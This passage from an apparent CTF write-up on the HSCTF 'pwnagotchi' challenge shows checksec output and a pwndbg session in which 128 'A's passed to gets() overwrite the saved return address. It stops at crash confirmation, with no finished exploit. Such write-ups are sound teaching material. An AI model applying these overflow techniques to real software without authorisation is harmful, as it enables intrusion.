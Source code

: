 Oh wow, seems like `_gets` is being used to get our input. That's a red flag for a buffer overflow. Let's test our hypothesis by trying it out in GDB. But first, let's check the security features of this binary.

```
pwndbg> checksec
[*] '/vagrant/challenges/hsctf/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Ok, there's no canary so that makes things even easier.

```
pwndbg> r <<< $(python -c 'print "A"*128')
Starting program: /vagrant/challenges/hsctf/pwnagotchi/pwnagotchi <<< $(python -c 'print "A"*128')
Enter your pwnagotchi's name:

\ (•-•) /

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not happy!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400988 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x0
 RDX  0x7ffff7dd18c0 (_IO_stdfile_1_lock) ◂— 0x0
 RDI  0x1
 RSI  0x7fffffffb5c0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not happy!\n'
 R8   0x8f
 R9   0x80
 R10  0xffffff80
 R11  0x246
 R12  0x400700 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdd50 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffdc78 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
 RIP  0x400988 (main+322) ◂— ret
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────
 ► 0x400988 <main+322>    ret    <0x4141414141414141>
─────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rsp  0x7fffffffdc78 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
... ↓
─────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0           400988 main+322
   f 1 4141414141414141
   f 2 4141414141414141
   f 3 4141414141414141
   f 4 4141414141414141
```